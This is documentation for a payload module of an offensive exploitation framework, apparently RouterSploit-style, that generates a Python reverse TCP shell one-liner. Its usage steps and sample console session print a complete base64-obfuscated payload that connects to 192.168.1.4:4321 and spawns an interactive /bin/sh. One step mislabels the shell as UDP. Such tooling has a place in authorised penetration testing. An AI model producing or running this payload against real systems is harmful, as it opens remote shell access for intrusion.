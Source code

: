 ## Description

Module generates payload that creates interactive tcp reverse shell by using python one-liner. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/cmd/python_reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates python udp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/python_reverse_tcp
rsf (Python Reverse TCP One-Liner) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Python Reverse TCP One-Liner) > set lport 4321
[+] lport => 4321
rsf (Python Reverse TCP One-Liner) > run
[*] Running module...
[*] Generating payload
python -c "exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zCnM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pCnMuY29ubmVjdCgoJzE5Mi4xNjguMS40Jyw0MzIxKSkKb3MuZHVwMihzLmZpbGVubygpLDApCm9zLmR1cDIocy5maWxlbm8oKSwxKQpvcy5kdXAyKHMuZmlsZW5vKCksMikKcD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwiLWkiXSk='.decode('base64'))"
```
